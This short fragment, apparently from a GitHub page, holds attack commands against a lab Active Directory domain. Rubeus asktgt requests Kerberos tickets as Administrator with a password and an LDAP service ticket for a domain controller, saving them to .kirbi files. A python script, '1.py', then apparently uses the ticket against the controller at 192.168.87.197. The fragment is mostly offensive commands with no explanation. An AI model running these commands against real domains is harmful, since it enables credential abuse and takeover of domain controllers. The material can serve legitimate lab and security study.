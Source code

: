 Rubeus.exe asktgt /user:Administrator  /password:qwe123... /domain:a.lab /dc:192.168.87.197 /outfile:1.kirbi
 
Rubeus.exe asktgt /user:Administrator /service:ldap/WIN-57JB297PI9L.a.lab /password:qwe123... /domain:a.lab /dc:192.168.87.197 /ticket:1.kirbi /outfile:2.kirbi

python3 1.py 192.168.87.197 WIN-57JB297PI9L.a.lab C:\Users\123\Downloads\2.kirbi s
